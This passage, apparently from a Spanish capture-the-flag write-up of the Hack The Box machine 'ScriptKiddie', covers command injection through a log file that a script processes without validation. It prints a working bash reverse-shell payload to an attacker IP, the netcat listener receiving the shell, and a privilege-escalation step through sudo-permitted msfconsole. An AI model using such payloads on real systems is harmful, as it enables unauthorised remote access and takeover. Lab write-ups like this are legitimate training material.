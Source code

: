 El script fitra del archivo hackers delimitando por un espacio y cogiendo el tercer argumento (`cut -d' ' -f3-`) y lo ordena alfabéticamente (`sort -u`). Adicionalmente no hay validación del input por lo que el script es vulnerable a inyección arbitraria de comandos

Mirando el contenido de la aplicación web (`/home/kid/html/app.py`) vemos que los timestamps y las IPs se guardan en `/home/kid/logs/hackers` cuando se insertan caracteres no alfanuméricos en el input de la sección `searchsploit`


<img src="/assets/HTB/ScriptKiddie/code.png">


Abrimos `netcat` y escribimos un payload revserse shell a `/home/kid/logs/hackers`

```bash
kid@scriptkiddie:/$ echo 'a b $(bash -c "bash -i &>/dev/tcp/10.10.14.33/443 0>&1")' > /home/kid/logs/hackers 
```

```bash
❯ sudo nc -nlvp 443
[sudo] password for yorch: 
listening on [any] 443 ...
connect to [10.10.14.33] from (UNKNOWN) [10.10.10.226] 41028
bash: cannot set terminal process group (803): Inappropriate ioctl for device
bash: no job control in this shell
pwn@scriptkiddie:~$ whoami
whoami
pwn
```

### Escalada de Privilegios

* * *

Mediante el comando `sudo -l` vemos que tenemos la capacidad de ejecutar como root `msfconsole`

```bash
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
pwn@scriptkiddie:~$ sudo msfconsole
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v6.0.9-dev                           ]
+ -- --=[ 2069 exploits - 1122 auxiliary - 352 post       ]
```